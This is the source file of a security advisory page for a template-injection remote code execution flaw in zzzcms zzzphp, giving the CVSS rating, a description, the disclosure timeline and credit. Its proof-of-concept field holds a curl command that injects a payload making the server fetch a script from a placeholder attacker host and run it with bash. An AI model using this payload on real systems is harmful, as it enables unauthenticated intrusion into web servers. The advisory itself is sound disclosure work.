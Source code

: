 ```yaml
---
layout: page
permalink: /advisories/src-2021-0015/
id: SRC-2021-0015
atitle: zzzcms zzzphp parserIfLabel Template Injection Remote Code Execution Vulnerability
CVE: N/A
CVSSrating: 9.8
CVSSscore: (/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
vendor: zzzcms
affected: zzzphp <= 2.0.3
timeline: [
2021-04-27 – Sent to zzzcms,
2021-05-04 – No response from the vendor,
2021-05-04 – Sent an email requesting a status update,
2021-05-11 – No response from the vendor,
2021-05-11 – Vendor releases 2.0.4 with the note - "Fix a security loophole please update it in time.",
2021-05-11 – Uncoordinated public release of advisory,
]
credit: Steven Seeley (mr_me) of Qihoo 360 Vulcan Team
body: |
 <p class="cn" markdown="1">This vulnerability allows remote attackers to execute arbitrary code on affected installations of zzzphp. Authentication is not required to exploit this vulnerability.</p>
 <p class="cn" markdown="1">The specific flaw exists within the processing of the search template. The issue results from the lack of proper validation of user-supplied keys when processing the search template. An attacker can leverage this vulnerability to execute code in the context of the web server.</p>
acknowledgments:
poc: curl -b 'keys={if:=`curl http://attacker.tld/poc.sh|bash`}{end if}' 'http://target.tld/?location=search'
---
```


#### **{{page.id}} : {{page.atitle}}**

**CVE ID:**
{{page.CVE}}

**CVSS Score:**
{{page.CVSSrating}}, [{{page.CVSSscore}}](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector={{page.CVSSscore}})

**Affected Vendors:**
{{page.vendor}}

**Affected Products:**
{{page.affected}}
{% if page.affectedlist %}
{% for item in page.affectedlist %}
  - {{ item }}
{% endfor %}
{% endif %}
**Vulnerability Details:**
{{page.body}}

**Vendor Response:**

{{page.vendor}} has issued an update to correct this vulnerability. More details can be found at: [http://www.zzzcms.com/a/news/31_282_1.html](http://www.zzzcms.com/a/news/31_282_1.html)

**Disclosure Timeline:**
{% for item in page.timeline %}
  - {{ item }}
{% endfor %}
{% if page.poc %}

**Proof of Concept:**
```{{page.poc}}```

{% endif %}
**Credit:**
This vulnerability was discovered by {{page.credit}}
{% if page.acknowledgments %}

**Acknowledgments:**
{{page.acknowledgments}}
{% endif %}
